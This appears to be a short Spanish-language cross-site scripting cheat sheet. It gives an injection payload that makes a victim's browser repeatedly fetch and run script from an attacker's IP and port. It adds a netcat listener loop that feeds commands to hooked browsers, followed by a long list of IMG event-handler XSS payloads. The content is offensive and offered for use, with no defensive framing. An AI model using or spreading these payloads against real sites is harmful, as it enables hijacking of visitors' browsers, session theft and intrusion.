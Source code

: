 ### payload a inyectar:
```
"><script>setInterval(function(){d=document;z=d.createElement("script");z.src="//IP:PORT";d.body.appendChild(z)},0)</script>
```

### para escuchar:
```
while :; do printf "Y000>$ "; read c; echo $c | nc -vvlp PORT >/dev/null; done
```
### eventos 

```
<IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onafterprint="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onbeforeprint="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onbeforeunload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onerror="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onhashchange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmessage="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ononline="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onoffline="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpagehide="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpageshow="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpopstate="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onresize="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onstorage="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onunload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onblur="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onchange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncontextmenu="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oninput="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oninvalid="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onreset="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onsearch="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onselect="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onsubmit="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onkeydown="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onkeypress="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onkeyup="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onclick="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondblclick="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmousedown="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmousemove="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmouseout="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmouseover="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmouseup="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmousewheel="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onwheel="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondrag="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragend="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragenter="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragleave="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragover="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragstart="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondrop="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onscroll="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncopy="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncut="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpaste="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onabort="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncanplay="alert(String.fromCharCode(88,83,83))">
```
